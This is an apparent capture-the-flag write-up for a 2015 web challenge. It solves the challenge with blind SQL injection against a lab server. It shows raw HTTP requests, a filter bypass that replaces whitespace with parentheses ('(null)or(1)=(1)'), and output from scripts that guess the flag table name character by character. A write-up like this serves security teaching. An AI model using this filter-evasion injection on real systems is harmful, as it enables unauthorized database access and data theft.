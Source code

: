 # WEB200
## Description
San Tzu Said : 

"Einstein would have been a good DBA, too ... 
What a DBA team : Shakespeare and Einstein ...
But who they will name tables ? that'is the question"

## Solution
According to the challenge description, the flag in the name of a table (starting with FLAG_).
So We need to exploit an SQL injection to resolve this challenge.

We start by injecting a simple quote in the id parametr using the following HTTP request :

```
GET /index.php?id=%27 HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:20.0) Gecko/20100101 Firefox/20.0 Iceweasel/20.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
```

But it seems that there is a filtering mechanism which block/detect malicious characters:

```
HTTP/1.1 200 OK
Date: Sat, 30 May 2015 22:45:40 GMT
Server: Apache
Vary: Accept-Encoding
Content-Length: 17
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html

Attack Detected !
```

First, we need to determine what pattern is used by the target in order to bypass it later. For example, we can try to inject all possible ASCII code :

```
tmr@desktop:~$ python pattern_detector.py
[+]   is filtred  //whitespace
[+] " is filtred  //quotes
[+] ' is filtred
[+] / is filtred  // slashe
[+] \ is filtred  // anti-slashe
```

As you can see above whitespace slashes and quotes are all caught by the target. But MySQL offers the possibility to avoid whitespaces by using parenthesis to separate SQL keywords.

For example, we can inject a boolean expression as follow :


```
GET /index.php?id=(null)or(1)=(1) HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:20.0) Gecko/20100101 Iceweasel
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
```

We get a valid response from the server (the profile page is displayed correctly) :


```
HTTP/1.1 200 OK
Date: Sat, 30 May 2015 23:23:37 GMT
Server: Apache
Vary: Accept-Encoding
Content-Length: 3827
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html


<!doctype html>
<html lang="en-US">
<head>
  <meta charset="utf-8">
  <meta http-equiv="Content-Type" content="text/html">
  <title>User Profile s...
```

Then, you can craft your own exploit to guess the table name :


```
tmr@desktop:~$ python exploit.py 
[+] Blind SQL Injection Exploit Using %LIKE% Technique 
[+] New Guessed Char : E
FLAG_E
[+] New Guessed Char : N
FLAG_EN
[+] New Guessed Char : T
FLAG_ENT
[+] New Guessed Char : A
FLAG_ENTA
[+] New Guessed Char : Y
FLAG_ENTAY
[+] New Guessed Char : A
FLAG_ENTAYA
[+] New Guessed Char : _
FLAG_ENTAYA_
[+] New Guessed Char : M
FLAG_ENTAYA_M
[+] New Guessed Char : 3
FLAG_ENTAYA_M3
[+] New Guessed Char : A
FLAG_ENTAYA_M3A
[+] New Guessed Char : L
FLAG_ENTAYA_M3AL
[+] New Guessed Char : E
FLAG_ENTAYA_M3ALE
[+] New Guessed Char : M
FLAG_ENTAYA_M3ALEM
```

That's it !
